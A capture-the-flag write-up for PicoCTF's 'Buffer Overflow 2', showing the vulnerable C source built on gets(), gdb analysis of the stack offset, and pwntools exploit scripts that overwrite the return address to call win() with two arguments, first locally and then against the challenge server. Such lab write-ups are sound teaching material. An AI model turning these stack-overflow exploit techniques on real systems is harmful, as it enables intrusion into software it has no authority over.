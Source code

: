 ```yaml
---
title: "PicoCTF: Buffer Overflow 2"
date: 2024-10-09T14:23:13-05:00
draft: false
tags:
- Buffer Overflow
- Binary Exploitation
- Code Review
- x86
- Pwn
- PicoCTF
---
```


### Description
Buffer Overflow 2 is a binary exploitation challenge that involves overflowing a buffer to not only call the win() function, but also to successfully pass the necessary arguments to it.


### Walkthrough
After downloading the vulnerable binary and its source code, the first thing I did was to view the source code.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

It is apparent that the binary is using the vulnerable ```gets()``` 
function with a buffer size of 100 bytes. We will need to overflow the buffer and 
call ```win()``` as well as pass in two arguments, ```0xCAFEF00D``` and
```0XF00DF00D```, in order to complete this challenge.

We can also see that we need a dummy flag in order for the program to execute correctly.

```
┌──(kali㉿kali)-[~/Writeups/pico/buff2]
└─$ echo 'pico{debug}' > flag.txt
```

To overflow the buffer, we first need to find the offset of the eip register. eip stands for 
"Extended Instruction Pointer" and as its name suggests, points to the next instruction to be 
executed. We want to write the address of ```win()``` to it. To find the address,
we can analyze ```vuln``` in gdb...

```
┌──(kali㉿kali)-[~/Writeups/pico/buff2]
└─$ gdb vuln
```

... and find the buffer allocation.

![GDB vuln buffer size](/img/pico/buff2/vuln_gets_alloc.png)

Notice that the address of offset ```ebp-0x6c``` is pushed onto the stack and is
read by ```gets()```. This means that after calling the ```gets``` function, there will be
108 (0x6c) bytes of buffer between the start of the buffer and the ```ebp``` register. Note
that the 108 bytes allocated differ from the 100-byte buffer declared in ```vuln.c```. 
Discrepancies like this are usually caused by padding or local variables.


{{< centralize-table >}}
| High Address |
| --- |
| ... |
| eip (4 bytes)|
| ebp (4 bytes)|
| buffer + padding (108 bytes)|
| ... |
| Low Address |
{{< /centralize-table >}}


```eip``` is at a higher address immediately after ```ebp```. Since ```ebp``` is a 4 byte register,
```eip``` is 112 (108 + 4) bytes from the start of the buffer. We will therefore need 112 bytes of padding
in our payload before ```eip``` starts being overwritten. 

Preliminary payload: 112 bytes padding + address of win().

```python
#!/usr/bin/python3

from pwn import *


p = process("./vuln")
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_main = p32(elf.symbols["main"])

payload_list = [
		padding,
		addr_win
		]

payload = b''.join(payload_list)

p.sendline(payload)
p.interactive()
```

I didn't get a clear indication as to whether my payload succeeded, so I added a breakpoint
at the ```win()``` function through gdb. If ```win()``` is called, the program will pause at the breakpoint.

```python
#!/usr/bin/python3

from pwn import *


p = process("./vuln")
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_win = p32(elf.symbols["win"])

payload_list = [
		padding,
		addr_win
		]

payload = b''.join(payload_list)

with open("payload", "wb") as f:
    f.write(payload)

g = gdb.attach(p, gdbscript = '''
        b *win
        r < payload
    ''')

p.sendline(payload)
p.interactive()
```

![win() function stop](/img/pico/buff2/win_stop.png)

We do break, meaning our exploit successfully called ```win()```. Now, we need to add 
the arguments ```0XCAFEF00D``` and ```0XF00DF00D```. Let us take a look at the stack
frame for ```win()```.


{{< centralize-table >}}
| High Address |
| --- |
| ... |
| arg2 (4 bytes) |
| arg1 (4 bytes) |
| eip (4 bytes) |
| ebp (4 bytes) |
| ... |
| Low Address |
{{< /centralize-table >}}


Unlike x64 binaries, all function arguments in x86 programs are passed directly onto the stack.
After jumping to ```win()```, we will also need to overflow ```eip``` before we can pass in arg1 and arg2.
In my exploit script I set ```eip``` to be overflowed with the address of ```main()``` for the sake of
having a valid return address, but any 4 byte value should work since the flag is being printed directly in ```win()```.

```python
#!/usr/bin/python3

from pwn import *


p = process("./vuln")
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_win = p32(elf.symbols["win"])
addr_main = p32(elf.symbols["main"])

arg1 = p32(0xCAFEF00D)
arg2 = p32(0xF00DF00D)

payload_list = [
        padding,
        addr_win,
        addr_main,
        arg1,
        arg2
        ]

payload = b''.join(payload_list)

p.sendline(payload)
p.interactive()
```

![Local binary flag](/img/pico/buff2/local_flag.png)

Our exploit was successful. Now all that's left to do is to change the target from
the local binary to the remote pico server.

```python
#!/usr/bin/python3

from pwn import *


p = remote("saturn.picoctf.net", 54042) # Changed from binary to pico server.
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_win = p32(elf.symbols["win"])
addr_main = p32(elf.symbols["main"])

arg1 = p32(0xCAFEF00D)
arg2 = p32(0xF00DF00D)

payload_list = [
        padding,
        addr_win,
        addr_main,
        arg1,
        arg2
        ]

payload = b''.join(payload_list)

p.sendline(payload)
p.interactive()
```

![Pico flag](/img/pico/buff2/flag.png)
